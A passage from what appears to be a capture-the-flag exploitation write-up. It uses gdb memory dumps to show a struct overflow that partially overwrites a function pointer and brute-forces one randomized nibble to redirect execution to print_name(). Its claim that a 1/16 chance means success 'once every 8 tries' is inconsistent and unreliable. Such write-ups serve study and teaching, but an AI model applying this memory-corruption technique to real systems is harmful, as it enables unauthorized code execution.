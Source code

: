 $7 = {<text variable, no debug info>} 0xb77db9e0 <print_listing>
{% endhighlight %}

We can see that `print_name()` and `print_listing()` each ALWAYS have the same lower/least significant 3 nibbles and same upper/most significant 3 nibbles. 
Only the middle two nibbles are ever randomized.
**This allows us to determine the address of `print_name()` by performing a partial overwrite of the last 2 bytes and brute forcing a nibble.**

For clarity, here is the `Merchant` struct before the first `memcpy()`:
{% highlight bash%}
gdb-peda$ x/42xw 0xffffd3cc 
0xffffd3cc:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3dc:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3ec:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3fc:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd40c:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd41c:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd42c:     0xf7e3a273      0x00000000      0x00ca0000      0x00000001
0xffffd43c:     0x5655563d      0x56555819      0x56558000      0x00000001
0xffffd44c:     0x56555e22      0x00000001      0xffffd514      0xffffd51c
0xffffd45c:     0xf7e3a42d      0xf7fb13c4      0xf7ffd000      0x56555ddb
0xffffd46c:     0x565559e0      0x56555dd0
{% endhighlight%}

And here is the `Merchant` struct afterward:
{% highlight bash %}
gdb-peda$ x/42xw 0xffffd3cc
0xffffd3cc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3dc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3ec:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3fc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd40c:     0x20736920      0x41412061      0x41414141      0x41414141
0xffffd41c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd42c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd43c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd44c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd45c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd46c:     0x56555be2      0x56555dd0
{% endhighlight %}

Notice how we only had to overwrite the lower 2 bytes of `merchant.sfunc` @ 0xffffd46c.
We hope that this new address is the address of `print_name()`, although realistically, we will only be correct 1/16th of the time, or on average, around once every 8 tries. 

Also notice that the pointer after `merchant.sfunc` points to an address inside libc.
{% highlight bash %}
gdb-peda$ telescope 0xffffd3cc 42
0000| 0xffffd3cc ('A' <repeats 64 times>, " is a ", 'A' <repeats 90 times>, "\342[UV\320]UV")
0004| 0xffffd3d0 ('A' <repeats 60 times>, " is a ", 'A' <repeats 90 times>, "\342[UV\320]UV")
[...]
0160| 0xffffd46c --> 0x56555be2 (<print_name>:  push   ebp)
0164| 0xffffd470 --> 0x56555dd0 (<__libc_csu_init>:     push   ebp)
{% endhighlight %}
